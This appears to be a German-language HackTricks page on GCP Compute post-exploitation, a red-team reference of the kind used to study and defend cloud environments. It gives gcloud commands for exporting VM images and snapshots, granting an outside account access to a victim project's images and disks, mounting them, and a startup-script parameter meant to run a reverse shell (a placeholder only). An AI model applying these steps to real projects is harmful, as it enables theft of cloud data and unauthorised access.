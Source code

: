 # GCP - Compute Post Exploitation

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## Compute

Für weitere Informationen zu Compute und VPC (Netzwerk) überprüfen Sie:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Bilder lokal exportieren & inspizieren

Dies würde einem Angreifer ermöglichen, **auf die Daten in bereits vorhandenen Bildern zuzugreifen** oder **neue Bilder von laufenden VMs zu erstellen** und auf deren Daten zuzugreifen, ohne Zugriff auf die laufende VM zu haben.

Es ist möglich, ein VM-Bild in einen Bucket zu exportieren und es dann herunterzuladen und lokal mit dem Befehl zu mounten:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Um diese Aktion auszuführen, benötigt der Angreifer möglicherweise Berechtigungen für den Speicher-Bucket und auf jeden Fall **Berechtigungen für cloudbuild**, da es der **Dienst** ist, der aufgefordert wird, den Export durchzuführen.\
Darüber hinaus müssen für das Funktionieren die Berechtigungen des codebuild SA und des compute SA privilegiert sein.\
Der cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` benötigt:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Und der SA `<project-id>-compute@developer.gserviceaccount.com` benötigt:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Exportieren & Überprüfen von Snapshots & Festplatten lokal

Es ist nicht möglich, Snapshots und Festplatten direkt zu exportieren, aber es ist möglich, **einen Snapshot in eine Festplatte, eine Festplatte in ein Image** zu **transformieren** und gemäß dem **vorherigen Abschnitt** dieses Image zu exportieren, um es lokal zu überprüfen.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Überprüfen eines Images durch Erstellen einer VM

Mit dem Ziel, auf die **Daten, die in einem Image gespeichert sind** oder innerhalb einer **laufenden VM**, von wo aus ein Angreifer **ein Image erstellt hat,** zuzugreifen, ist es möglich, einem externen Konto Zugriff auf das Image zu gewähren:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
und dann eine neue VM daraus erstellen:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Wenn Sie Ihrem externen Konto keinen Zugriff über das Image gewähren konnten, könnten Sie eine VM mit diesem Image im Projekt des Opfers starten und **die Metadaten dazu bringen, eine Reverse-Shell auszuführen**, um auf das Image zuzugreifen, indem Sie den Parameter hinzufügen:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Mit dem Ziel, auf die **Daten, die auf einem Disk oder einem Snapshot gespeichert sind, zuzugreifen, könnten Sie den Snapshot in einen Disk, einen Disk in ein Image umwandeln und die vorherigen Schritte befolgen.**

Oder Sie könnten **einem externen Konto Zugriff** auf den Disk gewähren (wenn der Ausgangspunkt ein Snapshot ist, gewähren Sie Zugriff auf den Snapshot oder erstellen Sie einen Disk daraus):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Hängen Sie die Festplatte** an eine Instanz an:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mounten Sie das Laufwerk innerhalb der VM:

1.  **SSH in die VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identifizieren Sie das Laufwerk**: Sobald Sie in der VM sind, identifizieren Sie das neue Laufwerk, indem Sie die Laufwerksgeräte auflisten. Typischerweise finden Sie es als `/dev/sdb`, `/dev/sdc` usw.
3. **Formatieren und Mounten Sie das Laufwerk** (wenn es sich um ein neues oder rohes Laufwerk handelt):
*   Erstellen Sie einen Mount-Punkt:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Mounten Sie das Laufwerk:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Wenn Sie **keinen Zugriff auf ein externes Projekt** für den Snapshot oder das Laufwerk gewähren können, müssen Sie möglicherweise **diese Aktionen innerhalb einer Instanz im selben Projekt wie der Snapshot/das Laufwerk** durchführen.

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
